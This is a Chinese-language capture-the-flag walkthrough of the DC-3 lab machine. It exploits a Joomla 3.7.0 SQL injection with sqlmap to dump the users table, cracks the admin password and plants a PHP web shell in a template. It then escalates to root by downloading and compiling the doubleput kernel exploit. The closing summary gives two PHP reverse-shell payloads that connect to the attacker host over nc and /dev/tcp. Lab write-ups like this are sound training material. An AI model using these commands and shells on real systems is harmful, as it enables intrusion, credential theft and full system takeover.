## DC-3 : Walkthrough

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali          | `192.168.1.112` |
| DC-3          | `192.168.1.108` |

### 扫描端口和版本信息

`nmap -A 192.168.1.108`



### 访问Web并确定web应用

根据 Nmap 扫描结果可知，web 应用程序运行 **Joomla** 开源 CMS系统，但没有版本号



访问 **80** 端口，从首页中我们知道该系统存在账户 *admin*，并且有登录框，因此我们可以采取密码爆破。不过我们应该将它作为备用方案，因为这是一件费时的事。

既然我们已经知道了运行的程序，接下来的任务是找到它的版本号，并且根据版本号上网查找是否存在漏洞。

幸运的是，在 Debian 发行版中有针对于 Joomla 的检测工具，执行命令下载并运行

`apt-get install joomscan`

`joomscan -u http://192.168.1.108 `



根据检测结果，顺利得到 Joomla 的版本号：**3.7.0**



查看 *42033.txt*（**`/usr/share/exploitdb/exploits/php/webapps/42033.txt`**）

```sql
sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

修改其中部分信息

```sql
sqlmap -u "http://192.168.1.108/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --random-agent --dbs -p list[fullordering] --batch
```



接下来就是 *sqlmap* 工具的使用

```sql
sqlmap -u "http://192.168.1.108/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --random-agent -D joomladb --tables -p list[fullordering] --batch
sqlmap -u "http://192.168.1.108/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --random-agent -D joomladb -T #__users --dump -p list[fullordering]
```



使用 *john* 工具进行密码爆破



至此我们得到账户和密码：`admin:snoopy`

### Getshell

使用账号密码登录系统（`http://192.168.1.108/administrator/`），并且在模板中新建 *shell.php* 文件，之后访问地址：`http://192.168.1.108/templates/protostar/shell.php`



在 Kali 上监听 **6677** 端口后查看系统内核和发行版



### 提权

根据内核版本搜索可利用漏洞



发现都是 **64** 位操作系统，但目标系统是 **32** 位，那我们搜索发行版本号试试



从中找出**本地提权**的可利用漏洞，那么就选择图中选中部分，查看`/usr/share/exploitdb/exploits/linux/exploits/linux/local/39772.txt`文本内容，看来需要我们下载压缩包，接下来照着提示内容做就行

```
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
unzip 39772.zip && cd 39772
tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit
./compile.sh
./doubleput
```



### 总结

1. 确认 web fingerprint 信息可以采用：

   1. `whatweb http://192.168.1.108`
   2. `curl -I http://192.168.1.108`
   3. Firefox 插件 Wappalyzer

2. PHP shell

   1. ```php
      <?php
      system('rm /tmp/aa;mkfifo /tmp/aa;cat /tmp/aa | /bin/bash -i 2>&1 | nc 192.168.1.112 6677 >/tmp/aa');
      ?>
      ```

   2. ```php
      <?php
      system("bash -c 'bash -i >& /dev/tcp/192.168.1.112/6677 0>&1' ");
      ?>
      ```

   3. weevely 工具生成


